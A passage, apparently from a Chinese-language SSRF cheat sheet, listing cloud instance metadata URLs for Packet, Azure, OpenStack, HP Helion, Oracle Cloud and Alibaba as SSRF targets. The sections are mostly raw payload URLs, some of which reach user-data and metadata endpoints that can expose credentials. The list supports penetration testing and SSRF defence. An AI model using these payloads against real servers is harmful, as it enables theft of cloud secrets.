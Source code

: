 ## Packetcloud 的 SSRF URL

文档位于 `https://metadata.packet.net/userdata`

## Azure 的 SSRF URL

有限，也许还有更多？ `https://azure.microsoft.com/en-us/blog/what-just-happened-to-my-vm-in-vm-metadata-service/`

```powershell
http://169.254.169.254/metadata/v1/maintenance
```

2017年4月更新，Azure 支持更多；需要头信息 "Metadata: true" `https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service`

```powershell
http://169.254.169.254/metadata/instance?api-version=2017-04-02
http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text
```

## OpenStack/RackSpace 的 SSRF URL

(是否需要头信息？未知)

```powershell
http://169.254.169.254/openstack
```

## HP Helion 的 SSRF URL

(是否需要头信息？未知)

```powershell
http://169.254.169.254/2009-04-04/meta-data/ 
```

## Oracle Cloud 的 SSRF URL

```powershell
http://192.0.0.192/latest/
http://192.0.0.192/latest/user-data/
http://192.0.0.192/latest/meta-data/
http://192.0.0.192/latest/attributes/
```

## Alibaba 的 SSRF URL

```powershell
http://100.100.100.200/latest/meta-data/
http://100.100.100.200/latest/meta-data/instance-id
http://100.100.100.200/latest/meta-data/image-id
```
